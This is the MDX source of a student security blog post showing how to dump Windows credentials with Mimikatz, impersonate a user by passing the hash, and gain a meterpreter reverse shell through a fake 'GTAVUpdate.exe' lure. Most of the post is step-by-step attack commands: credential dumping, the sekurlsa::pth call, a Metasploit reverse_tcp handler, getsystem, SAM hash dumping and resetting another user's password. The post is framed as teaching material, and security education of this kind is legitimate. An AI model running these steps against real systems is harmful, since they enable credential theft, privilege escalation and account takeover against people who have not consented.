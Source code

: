 ```yaml
---
title: 'Passing the Hash with Mimikatz'
excerpt: "In this article, I'll walk you through how to use Mimikatz to obtain user passwords from a Windows machine. I'll also show you how to use Mimikatz in order to perform an attack called passing the hash (pth) to escalate your privileges and impersonate a user. Also as a bonus, I'll show you how you can utilise both a Meterpreter reverse shell and a phishing attack in order to get the same outcome but without needing physical access to the target's machine."
publishDate: '2022-04-07'
tags: ['Security']
---
```



<div className="markdown">

<div className="grid w-full my-8 items-start gap-4">
  <Alert variant="destructive" className="w-full gap-4">
    <InfoIcon className='w-5'/>
    <AlertTitle>The contents in this article may be outdated</AlertTitle>
    <AlertDescription>This article was made as a part of Cookies.sh – a project that I made in my university days to educate people about topics in Security.</AlertDescription>
  </Alert>
</div>

### What are the main concepts

<div className="w-full flex flex-col md:flex-row space-between gap-4">
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      xmlns="http://www.w3.org/2000/svg"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      fill="none"
      stroke="currentColor"
      strokeWidth="2"
      strokeLinecap="round"
      strokeLinejoin="round"
      className="lucide lucide-shield-alert"
    >
      <path d="M20 13c0 5-3.5 7.5-7.66 8.95a1 1 0 0 1-.67-.01C7.5 20.5 4 18 4 13V6a1 1 0 0 1 1-1c2 0 4.5-1.2 6.24-2.72a1.17 1.17 0 0 1 1.52 0C14.51 3.81 17 5 19 5a1 1 0 0 1 1 1z" />
      <path d="M12 8v4" />
      <path d="M12 16h.01" />
    </svg>
    <div className="text-lg font-semibold">Mimikatz</div>
    <small className="text-slate-500 text-sm">
      Mimikatz is well known to extract plaintexts, passwords, and hash from
      memory.
    </small>
  </div>
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      role="img"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      xmlns="http://www.w3.org/2000/svg"
    >
      <title>Metasploit</title>
      <path d="M11.353 0h1.368q4.19.218 8.144 1.616.217.077.216.309-.015 4.033-.002 12.102 0 .81-.093 1.173c-.217.845-.76 1.635-1.326 2.325q-.318.388-1.024 1.046-2.955 2.75-6.01 5.094-.183.14-.516.335h-.17q-.627-.42-.945-.673-3.992-3.184-5.442-4.459-1.348-1.185-2.169-2.611c-.369-.64-.466-1.287-.465-2.099q.01-6.048.002-12.218c0-.183.09-.264.261-.325Q7.145.227 11.352 0ZM7.474 7.864q0-.094.069-.031l2.797 2.516a.374.372 21.2 0 1 .122.276l-.006 4.333a.182.182 0 0 0 .183.184l2.524-.018a.11.11 89.8 0 0 .108-.11q-.007-2.201.01-4.461.002-.173.146-.29 1.397-1.145 2.946-2.393.068-.055.068.032v10.881q0 .092.063.024.794-.865 1.628-1.838.71-.83.984-1.87.26-.989.262-1.997.007-4.754.009-9.768a.136.136 0 0 0-.137-.136q-1.15.004-2.424 0c-.287-.002-.441-.022-.619.149Q14.16 5.317 11.982 7.4a.046.046 0 0 1-.062 0Q9.782 5.437 7.769 3.525c-.234-.222-.515-.381-.843-.373q-1.09.026-2.33.005-.184-.004-.184.18-.003 4.54.005 9.032.002.536.036 1.027c.076 1.093.2 2.126.803 3.021.574.852 1.329 1.656 2.126 2.405q.023.022.054.026.04.006.04-.034z" />
    </svg>
    <div className="text-lg font-semibold">Metasploit</div>
    <small className="text-slate-500 text-sm">
      The world&apos;s most used penetration testing framework.
    </small>
  </div>
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      role="img"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      xmlns="http://www.w3.org/2000/svg"
    >
      <title>Kali Linux</title>
      <path d="M12.778 5.943s-1.97-.13-5.327.92c-3.42 1.07-5.36 2.587-5.36 2.587s5.098-2.847 10.852-3.008zm7.351 3.095l.257-.017s-1.468-1.78-4.278-2.648c1.58.642 2.954 1.493 4.021 2.665zm.42.74c.039-.068.166.217.263.337.004.024.01.039-.045.027-.005-.025-.013-.032-.013-.032s-.135-.08-.177-.137c-.041-.057-.049-.157-.028-.195zm3.448 8.479s.312-3.578-5.31-4.403a18.277 18.277 0 0 0-2.524-.187c-4.506.06-4.67-5.197-1.275-5.462 1.407-.116 3.087.643 4.73 1.408-.007.204.002.385.136.552.134.168.648.35.813.445.164.094.691.43 1.014.85.07-.131.654-.512.654-.512s-.14.003-.465-.119c-.326-.122-.713-.49-.722-.511-.01-.022-.015-.055.06-.07.059-.049-.072-.207-.13-.265-.058-.058-.445-.716-.454-.73-.009-.016-.012-.031-.04-.05-.085-.027-.46.04-.46.04s-.575-.283-.774-.893c.003.107-.099.224 0 .469-.3-.127-.558-.344-.762-.88-.12.305 0 .499 0 .499s-.707-.198-.82-.85c-.124.293 0 .469 0 .469s-1.153-.602-3.069-.61c-1.283-.118-1.55-2.374-1.43-2.754 0 0-1.85-.975-5.493-1.406-3.642-.43-6.628-.065-6.628-.065s6.45-.31 11.617 1.783c.176.785.704 2.094.989 2.723-.815.563-1.733 1.092-1.876 2.97-.143 1.878 1.472 3.53 3.474 3.58 1.9.102 3.214.116 4.806.942 1.52.84 2.766 3.4 2.89 5.703.132-1.709-.509-5.383-3.5-6.498 4.181.732 4.549 3.832 4.549 3.832zM12.68 5.663l-.15-.485s-2.484-.441-5.822-.204C3.37 5.211 0 6.38 0 6.38s6.896-1.735 12.68-.717Z" />
    </svg>
    <div className="text-lg font-semibold">Kali Linux</div>
    <small className="text-slate-500 text-sm">
      A Linux distribution designed for digital forensics and penetration
      testing.
    </small>
  </div>
</div>

### Pre Set Up

- A target (preferably with consent)
- A windows machine with multiple user account (peferably one which has admin access)
- The Windows Defender (aka Window's firewall) has been turned off
- Mimikatz (and metasploit if you are attempting the bonus feature) downloaded

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */
```

### The Simple Way

1. Log on as `FakeUser` and demonstrate that without system admin privilege, we can't change the password of another account.
2. Launch `Mimikatz` as an administrator
3. Use command `privilege::debug` to escalate privileges
4. Use command `sekurlsa::logonpasswords` to dump all user passwords.
5. Get the hash of the user we want to impersonate (in this case, it's `User`) and the domain of the `FakeUser` account.
6. Use command:

```
sekurlsa::pth /user:User /domain:[insert_user_domain_here] /ntlm:[insert_hash_here]
```

7. A new console opens up.
8. Demonstrate that the system thinks we are still `FakeUser` but we definitely are `User`.
9. Now try changing the password and it will work. This is an pre-recording I did in case the lightning talk went sideways. If you can't view the recording below, use this link instead: [Mimikatz Video](https://youtu.be/MLizeTI0jr4)

<div className="flex w-full justify-center py-4">
  <iframe
    width="710"
    height="398"
    src="https://www.youtube.com/embed/MLizeTI0jr4"
    allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"
    allowFullScreen
    className="rounded-sm"
  ></iframe>
</div>

### Bonus: The Fancy Way

1. Launch Kali
2. Open terminal and get IP using `ip addr`
3. Launch Metasploit using `msfconsole`
4. Use commands:

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP address]
set LPORT 4444
```

5. Open another console and `cd /var/www/html`
6. Start the apache server using `service apache2 start`
7. Switch back to the meterpreter console and type `exploit`
8. Switch over to the Windows machine and talk about how a simple social engineering can be done to gain access.
9. Once launch `GTAVUpdate.exe`, go back to Kali.
10. Show that we are now impersonating this user by `getuid`
11. Escalate our privileges by `getsystem`
12. Show that we are now system admin by `getuid`
13. Load mimikatz using `load mimikatz`
14. Show that we can get user password ntlm hashes using `lsa_dump_sam`
15. Type in `shell`
16. This launches the shell and we can verify that we are system admin by `whoami`
17. Change password using `net user User hello`

### Reflection

From researching various topics about Mimikatz, passing the hash and Windows Defenders to ultimately doing a lightning talk (more like a lightning demo) about how to escalate privileges in Windows, I've learnt a lot about how powerful a tool Windows firewall is to detect malware like Mimikatz and how easy it was to hack someone's account when you have physical access (ie. GAME OVER!!!). The talk I did also spawned a couple of interesting questions about the validity of attacking a corporate network like how I demonstrated it. Spoiler alert: unless you have physical access to the network, you chances of you doing this is low. Even if you successfully manage to download Mimikatz, there are definitely going to be all sorts of red flags going off in the company's IT department.

</div>
